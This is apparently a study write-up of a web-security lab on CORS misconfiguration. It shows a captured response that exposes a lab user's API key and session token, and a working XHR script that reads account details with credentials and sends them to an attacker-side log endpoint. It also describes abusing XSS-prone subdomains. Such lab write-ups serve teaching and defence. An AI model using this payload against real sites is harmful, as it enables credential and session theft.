 Response request

```
HTTP/2 200 OK
Access-Control-Allow-Origin: https://google.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149
{
  "username": "wiener",
  "email": "",
  "apikey": "rgP0rUMKyM1EKlPJomojHMsmxeQChdH9",
  "sessions": [
    "HeU2poPXNDfV1PVYHZUs1y64nKtb5iND"
  ]
}
```

What happens here is that when we add the "Origin" header and the web app return the origin source as a trusted source. This becomes a problem because this web app trust any origin source from 3rd parties and subdomains.

**Script example**

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```


Trusted subdomains are also vulnerable to cors attack. If attackers found any one of subdomains that are vulnerable to XSS. They can use those subdomains as origin source and embed script in the request in the form of XHR script. The concept is pretty much similar. You can just use the vulnerable subdomain in Origin header!

<h3>CORS attack scenario in a nutshell</h3>

Let say you make a request and the response request has **Access-Control-Allow-Credentials: true**. The first assumption is this web app is using CORS. CORS is there to make a request from external 3rd parties and subdomains. Next, we can use burp suite to request another request but this time with **Origin: URL**. If it works you will see the reflected origin url in the response request. Now, we are certain that this web app is vulnerable. Because of **Access-Control-Allow-Credentials: true** we can embed a javascript to steal API or session token and send it to the attacker's machine using XHR. XHR is API that allows users to use script in HTML. The attackers also need their web server running with js script that is waiting for the API token from the request and then save it in let say log.txt or whatever file that specified in the js script. Basically XSS in XHR. 
